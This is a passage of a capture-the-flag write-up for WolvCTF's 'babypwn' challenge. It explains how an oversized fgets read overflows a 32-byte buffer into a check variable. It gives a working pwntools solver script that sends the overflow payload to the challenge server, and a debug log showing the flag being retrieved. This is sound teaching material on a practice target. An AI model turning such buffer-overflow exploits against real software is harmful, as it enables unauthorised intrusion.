 ```c {title="babypwn.c" lineNos=true lineNoStart=1}
  }

  return 0;
}
```

The `fgets` function in the `main` function reads 64 bytes into `name.buff`, which is only 32 bytes long. This can lead to an overflow of the `check` variable if more than 32 bytes are entered.

To exploit this, we need to enter 32 bytes to fill up the `buff` array, and then 4 more bytes to overwrite the `check` variable with the value `0x41414141`. Here's an solver:

```python {title="solver.py" lineNos=true lineNoStart=1}
from pwn import *

def exploit(io):
    io.recvuntil(b"What's your name?")

    payload = b'A' * 32
    payload += p32(0x41414141)
    io.sendline(payload)

    # output = io.recvall()
    # print(output)
    io.interactive()

if __name__ == "__main__":
    context.update(log_level='debug')
    try:
        io = remote('babypwn.wolvctf.io', 1337)
        exploit(io)
    except:
        io = process('./babypwn')
        exploit(io)
```

```bash {title="running"}
$ python3 solver.py
[+] Opening connection to babypwn.wolvctf.io on port 1337: Done
[DEBUG] Received 0x1e bytes:
    b'== proof-of-work: disabled ==\n'
[DEBUG] Received 0x12 bytes:
    b"What's your name?\n"
[DEBUG] Sent 0x25 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Switching to interactive mode

[DEBUG] Received 0x38 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
    b' nice to meet you!\n'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 nice to meet you!
[DEBUG] Received 0x21 bytes:
    b'Binary exploitation is the best!\n'
Binary exploitation is the best!
[DEBUG] Received 0x3d bytes:
    b'Memory unsafe languages rely on coders to not make mistakes.\n'
Memory unsafe languages rely on coders to not make mistakes.
[DEBUG] Received 0x2b bytes:
    b"But I don't worry, I write perfect code :)\n"
But I don't worry, I write perfect code :)
[DEBUG] Received 0x20 bytes:
    b'wctf{pwn_1s_th3_best_Categ0ry!}\n'
wctf{pwn_1s_th3_best_Categ0ry!}
[*] Got EOF while reading in interactive
```